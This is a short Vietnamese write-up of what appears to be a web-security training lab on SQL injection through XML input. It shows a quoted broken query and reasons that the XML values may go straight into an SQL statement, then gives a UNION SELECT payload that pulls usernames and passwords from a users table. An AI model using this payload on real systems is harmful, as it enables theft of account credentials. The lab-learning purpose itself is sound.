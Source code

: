 ```SQL SELECT * FROM tracking WHERE id = '0Fhv4wPNNEk31yt4''```

![alt text](./img/lab15.png)

🧠 Nhận định

    • Request POST kiểu application/xml, tức là server sẽ parse XML để lấy dữ liệu.

    • Có khả năng dữ liệu này sẽ được đưa trực tiếp vào truy vấn SQL, ví dụ:

```SELECT stock FROM products WHERE product_id = '1' AND store_id = '1';```

➡️ Điều này tạo điều kiện SQL Injection thông qua XML input nếu không được kiểm tra đầu vào.

- Use payload: ```1 UNION SELECT username || '@' || password FROM users```

![alt text](./img/lab15-2.png)

